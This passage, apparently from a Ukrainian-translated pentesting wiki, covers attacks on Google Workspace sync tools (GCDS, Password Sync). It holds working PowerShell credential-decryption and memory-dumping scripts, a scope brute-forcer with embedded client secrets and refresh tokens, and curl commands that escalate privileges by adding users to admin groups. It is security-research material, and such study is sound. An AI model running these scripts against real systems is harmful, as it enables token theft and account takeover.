https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Деякі приклади використання деяких з цих областей:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** - це додаток для Google Workspace, який надає інструменти для зберігання даних, пошуку та експорту даних вашої організації, збережених у службах Google Workspace, таких як Gmail, Drive, Chat та інші.

* **Справа** в Google Workspace Vault - це **контейнер**, який організовує та групує всю інформацію, пов'язану з конкретною справою, розслідуванням або юридичною справою. Він слугує центральним вузлом для управління **Утриманнями**, **Пошуками** та **Експортами**, що стосуються цієї конкретної проблеми.
* **Утримання** в Google Workspace Vault - це **дія збереження**, що застосовується до конкретних користувачів або груп, щоб **запобігти видаленню або змінам** їхніх даних у службах Google Workspace. Утримання забезпечують збереження відповідної інформації в цілісності та незмінності протягом тривалості юридичної справи або розслідування.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Більше [API кінцевих точок у документації](https://developers.google.com/vault/reference/rest).

</details>

## GCDS - Google Cloud Directory Sync

Це інструмент, який можна використовувати для **синхронізації ваших користувачів та груп активного каталогу з вашим Workspace** (а не навпаки на момент написання цього тексту).

Це цікаво, оскільки це інструмент, який вимагатиме **облікових даних суперкористувача Workspace та привілейованого користувача AD**. Тому, можливо, його можна знайти на сервері домену, який час від часу синхронізує користувачів.

{% hint style="info" %}
Щоб виконати **MitM** для бінарного файлу **`config-manager.exe`**, просто додайте наступний рядок у файл `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Зверніть увагу, що [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) здатний виявити **GCDS**, отримати інформацію про конфігурацію та **навіть паролі та зашифровані облікові дані**.
{% endhint %}

Також зверніть увагу, що GCDS не синхронізує паролі з AD до Workspace. Якщо щось, він просто згенерує випадкові паролі для новостворених користувачів у Workspace, як ви можете бачити на наступному зображенні:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Диск Токени та Облікові Дані AD

Бінарний файл `config-manager.exe` (основний бінарний файл GCDS з GUI) за замовчуванням зберігатиме налаштовані облікові дані Active Directory, токен оновлення та доступ у **xml файлі** в папці **`C:\Program Files\Google Cloud Directory Sync`** у файлі під назвою **`Untitled-1.xml`** за замовчуванням. Хоча його також можна зберегти в `Documents` користувача або в **будь-якій іншій папці**.

Більше того, реєстр **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** всередині ключа **`open.recent`** містить шляхи до всіх нещодавно відкритих конфігураційних файлів (xml). Тому можливо **перевірити це, щоб знайти їх**.

Найцікавіша інформація всередині файлу буде:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Зверніть увагу, як **refresh** **token** та **password** користувача **шифруються** за допомогою **AES CBC** з випадково згенерованим ключем та IV, які зберігаються в **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (де б не зберігала бібліотека **`prefs`** Java налаштування) у рядкових ключах **`/Encryption/Policy/V2.iv`** та **`/Encryption/Policy/V2.key`**, збережених у base64.

<details>

<summary>Powershell скрипт для розшифровки refresh token та password</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Зверніть увагу, що цю інформацію можна перевірити, переглянувши java-код **`DirSync.jar`** з **`C:\Program Files\Google Cloud Directory Sync`**, шукаючи рядок `exportkeys` (оскільки це параметр cli, який бінарний файл `upgrade-config.exe` очікує для виведення ключів).
{% endhint %}

Замість використання скрипта PowerShell, також можна використовувати бінарний файл **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** з параметром `-exportKeys` і отримати **Key** та **IV** з реєстру в шістнадцятковому форматі, а потім просто використати CyberChef з AES/CBC та цим ключем і IV для розшифровки інформації.

### GCDS - Виведення токенів з пам'яті

Так само, як і з GCPW, можливо вивести пам'ять процесу `config-manager.exe` (це назва основного бінарного файлу GCDS з GUI), і ви зможете знайти токени оновлення та доступу (якщо вони вже були згенеровані).\
Гадаю, ви також могли б знайти налаштовані облікові дані AD.

<details>

<summary>Виведення процесів config-manager.exe та пошук токенів</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Генерація токенів доступу з токенів оновлення

Використовуючи токен оновлення, можна згенерувати токени доступу, використовуючи його та ідентифікатор клієнта і секрет клієнта, зазначені в наступній команді:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
Зверніть увагу, що навіть маючи refresh token, неможливо запитати жоден scope для access token, оскільки ви можете запитувати лише **scopes, підтримувані додатком, в якому ви генеруєте access token**.

Також refresh token не є дійсним у кожному додатку.
{% endhint %}

За замовчуванням GCSD не матиме доступу як користувач до кожного можливого OAuth scope, тому, використовуючи наступний скрипт, ми можемо знайти scopes, які можна використовувати з `refresh_token` для генерації `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

І ось вихід, який я отримав на момент написання:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Створіть користувача та додайте його до групи `gcp-organization-admins`, щоб спробувати ескалувати привілеї в GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
Неможливо надати новому користувачу роль Super Admin, оскільки **токен оновлення не має достатньо обсягів** для надання необхідних привілеїв.
{% endhint %}

## Синхронізація адміністративного каталогу

Основна різниця між цим способом синхронізації користувачів з GCDS полягає в тому, що GCDS виконується вручну з деякими бінарними файлами, які потрібно завантажити та запустити, тоді як **Синхронізація адміністративного каталогу є безсерверною** і керується Google на [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories).

На момент написання цього матеріалу ця служба знаходиться в бета-версії і підтримує 2 типи синхронізації: з **Active Directory** та з **Azure Entra ID:**

* **Active Directory:** Щоб налаштувати це, потрібно надати **доступ Google до вашого середовища Active Directory**. Оскільки Google має доступ лише до мереж GCP (через **VPC connectors**), вам потрібно створити конектор, а потім зробити ваш AD доступним з цього конектора, розмістивши його на ВМ у мережі GCP або використовуючи Cloud VPN або Cloud Interconnect. Потім вам також потрібно надати **облікові дані** облікового запису з правами читання над каталогом та **сертифікат** для зв'язку через **LDAPS**.
* **Azure Entra ID:** Для налаштування цього потрібно просто **увійти в Azure з користувачем з правами читання** над підпискою Entra ID у спливаючому вікні, яке відобразить Google, і Google зберігатиме токен з правами читання над Entra ID.

Після правильного налаштування обидва варіанти дозволять **синхронізувати користувачів та групи з Workspace**, але не дозволять налаштовувати користувачів та групи з Workspace до AD або EntraID.

Інші можливості, які будуть доступні під час цієї синхронізації:

* Надіслати електронний лист новим користувачам для входу
* Автоматично змінити їхню електронну адресу на ту, що використовується Workspace. Тобто, якщо Workspace використовує `@hacktricks.xyz`, а користувачі EntraID використовують `@carloshacktricks.onmicrosoft.com`, то `@hacktricks.xyz` буде використано для користувачів, створених в обліковому записі.
* Вибрати **групи, що містять користувачів**, які будуть синхронізовані.
* Вибрати **групи** для синхронізації та створення в Workspace (або вказати синхронізувати всі групи).

### З AD/EntraID -> Google Workspace (& GCP)

Якщо вам вдасться скомпрометувати AD або EntraID, ви отримаєте повний контроль над користувачами та групами, які будуть синхронізовані з Google Workspace.\
Однак зверніть увагу, що **паролі**, які користувачі можуть використовувати в Workspace, **можуть бути однаковими або ні**.

#### Атака на користувачів

Коли відбувається синхронізація, можуть синхронізуватися **всі користувачі з AD або лише ті, що з конкретного OU** або лише **користувачі, які є членами конкретних груп в EntraID**. Це означає, що для атаки на синхронізованого користувача (або створення нового, який буде синхронізований) вам спочатку потрібно з'ясувати, які користувачі синхронізуються.

* Користувачі можуть **повторно використовувати пароль або ні з AD або EntraID**, але це означає, що вам потрібно **скомпрометувати паролі користувачів для входу**.
* Якщо у вас є доступ до **електронних листів** користувачів, ви можете **змінити пароль Workspace існуючого користувача**, або **створити нового користувача**, почекати, поки він буде синхронізований, і налаштувати обліковий запис.

Після того, як ви отримаєте доступ до користувача в Workspace, йому можуть бути надані деякі **дозволи за замовчуванням**.

#### Атака на групи

Вам також потрібно спочатку з'ясувати, які групи синхронізуються. Хоча існує можливість, що **ВСІ** групи синхронізуються (оскільки Workspace це дозволяє).

{% hint style="info" %}
Зверніть увагу, що навіть якщо групи та членства імпортуються в Workspace, **користувачі, які не синхронізуються в синхронізації користувачів, не будуть створені** під час синхронізації груп, навіть якщо вони є членами будь-якої з синхронізованих груп.
{% endhint %}

Якщо ви знаєте, які групи з Azure отримують **дозволи в Workspace або GCP**, ви можете просто додати скомпрометованого користувача (або новоствореного) до цієї групи та отримати ці дозволи.

Є ще один варіант зловживання існуючими привілейованими групами в Workspace. Наприклад, група `gcp-organization-admins@<workspace.email>` зазвичай має високі привілеї над GCP.

Якщо синхронізація, наприклад, з EntraID до Workspace **налаштована на заміну домену** імпортованого об'єкта **електронною адресою Workspace**, зловмисник зможе створити групу `gcp-organization-admins@<entraid.email>` в EntraID, додати користувача до цієї групи та почекати, поки відбудеться синхронізація всіх груп.\
**Користувач буде доданий до групи `gcp-organization-admins@<workspace.email>`, підвищуючи привілеї в GCP.**

### З Google Workspace -> AD/EntraID

Зверніть увагу, що Workspace вимагає облікові дані з доступом лише для читання до AD або EntraID для синхронізації користувачів та груп. Тому **зловживати Google Workspace для внесення змін в AD або EntraID неможливо**. Отже, **це наразі неможливо**.

Я також не знаю, де Google зберігає облікові дані AD або токен EntraID, і ви **не можете відновити їх, переналаштувавши синхронізацію** (вони не з'являються у веб-формі, вам потрібно ввести їх знову). Однак з веб-інтерфейсу може бути можливим зловживати поточною функціональністю для **перегляду користувачів та груп**.

## GPS - Синхронізація паролів Google

Це бінарний файл і служба, яку Google пропонує для **збереження синхронізації паролів користувачів між AD** та Workspace. Кожного разу, коли користувач змінює свій пароль в AD, він встановлюється в Google.

Він встановлюється в `C:\Program Files\Google\Password Sync`, де ви можете знайти бінарний файл `PasswordSync.exe` для його налаштування та `password_sync_service.exe` (служба, яка продовжить працювати).

### GPS - Налаштування

Щоб налаштувати цей бінарний файл (і службу), потрібно **надати доступ до Super Admin у Workspace**:

* Увійти через **OAuth** з Google, а потім він **зберігатиме токен у реєстрі (зашифрований)**
* Доступно лише на контролерах домену з GUI
* Надати деякі **облікові дані облікового запису служби з GCP** (json файл) з правами на **керування користувачами Workspace**
* Дуже погана ідея, оскільки ці облікові дані ніколи не закінчуються і можуть бути зловживані
* Дуже погана ідея надавати SA доступ до Workspace, оскільки SA може бути скомпрометований у GCP, і буде можливість перейти до Workspace
* Google вимагає це для контролю домену без GUI
* Ці облікові дані також зберігаються в реєстрі

Щодо AD, можливо вказати використовувати поточний **контекст додатків, анонімний або деякі конкретні облікові дані**. Якщо вибрано варіант облікових даних, **ім'я користувача** зберігається в файлі на **диску**, а **пароль** **зашифрований** і зберігається в **реєстрі**.

### GPS - Витяг паролів і токенів з диска

{% hint style="success" %}
Зверніть увагу, що [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) здатний виявляти **GPS**, отримувати інформацію про конфігурацію та **навіть розшифровувати пароль і токен**.
{% endhint %}

У файлі **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** можна знайти частину конфігурації, таку як **`baseDN`** налаштованого AD та **`username`**, чиї облікові дані використовуються.

У реєстрі **`HKLM\Software\Google\Google Apps Password Sync`** можна знайти **зашифрований токен оновлення** та **зашифрований пароль** для користувача AD (якщо є). Більше того, якщо замість токена використовуються деякі **облікові дані SA**, також можна знайти їх зашифрованими за цією адресою реєстру. **Значення** в цьому реєстрі доступні лише **адміністраторам**.

Зашифрований **пароль** (якщо є) знаходиться в ключі **`ADPassword`** і зашифрований за допомогою **`CryptProtectData`** API. Щоб розшифрувати його, вам потрібно бути тим же користувачем, що й налаштував синхронізацію паролів, і використовувати цю **ентропію** під час використання **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Зашифрований токен (якщо є) знаходиться в ключі **`AuthToken`** і зашифрований за допомогою **`CryptProtectData`** API. Щоб розшифрувати його, вам потрібно бути тим же користувачем, що й налаштував синхронізацію паролів, і використовувати цю **ентропію** під час використання **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Більше того, він також кодується за допомогою base32hex з словником **`0123456789abcdefghijklmnopqrstv`**.

Значення ентропії були знайдені за допомогою інструменту. Він був налаштований для моніторингу викликів до **`CryptUnprotectData`** та **`CryptProtectData`**, а потім інструмент використовувався для запуску та моніторингу `PasswordSync.exe`, який розшифрує налаштований пароль і токен авторизації на початку, і інструмент **показуватиме значення для використаної ентропії** в обох випадках:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Зверніть увагу, що також можливо побачити **розшифровані** значення на вході або виході викликів до цих API (в разі, якщо в якийсь момент Winpeas перестане працювати).

У разі, якщо синхронізація паролів була **налаштована з обліковими даними SA**, вона також буде зберігатися в ключах у реєстрі **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Витяг токенів з пам'яті

Так само, як і з GCPW, можливо витягти пам'ять процесу `PasswordSync.exe` та `password_sync_service.exe`, і ви зможете знайти токени оновлення та доступу (якщо вони вже були згенеровані).\
Я думаю, ви також могли б знайти налаштовані облікові дані AD.

<details>

<summary>Витягніть <code>PasswordSync.exe</code> та <code>password_sync_service.exe</code> процеси та шукайте токени</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
